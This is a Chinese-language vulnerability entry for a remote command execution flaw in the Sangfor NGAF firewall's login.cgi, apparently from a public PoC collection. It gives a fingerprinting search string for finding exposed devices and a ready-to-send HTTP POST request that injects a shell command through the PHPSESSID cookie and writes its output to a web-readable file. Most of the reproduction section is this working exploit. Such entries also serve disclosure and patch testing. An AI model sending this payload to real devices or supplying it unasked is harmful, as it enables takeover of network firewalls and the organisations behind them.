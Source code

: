 # 深信服 NGAF下一代防火墙 login.cgi 远程命令执行漏洞

## 漏洞描述

深信服下一代防火墙是一款以应用安全需求出发而设计的下一代应用防火墙。深信服下一代防火墙在 login.cgi  路径下，PHPSESSID 处存在命令执行漏洞。攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个web服务器。

## 漏洞影响

<a-checkbox checked>深信服 NGAF下一代防火墙</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"Redirect.php?url=LogInOut.php"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1697639705479-39cc829b-1edc-4102-9b01-1f5d6c9bac5a-20231108133116891.png)

验证POC

```plain
POST /cgi-bin/login.cgi HTTP/1.1 
Host: 
Cache-Control: max-age=0 
Content-Type: Application/X-www-Form
y-forwarded-for: 127.0.0.1
Cookie: PHPSESSID=`$(id > /fwlib/sys/virus/webui/svpn_html/3.txt)`;

{"opr":"login", "data":{"user": "watchTowr" , "pwd": "watchTowr" , "vericode": "NSLB" , "privacy_enable": "0"}}
```

![img](../../../.vuepress/public/img/1697639728998-9a5a3f9a-a49d-4e24-b9c6-0c4cf34100ec.png)

```plain
/svpn_html/3.txt
```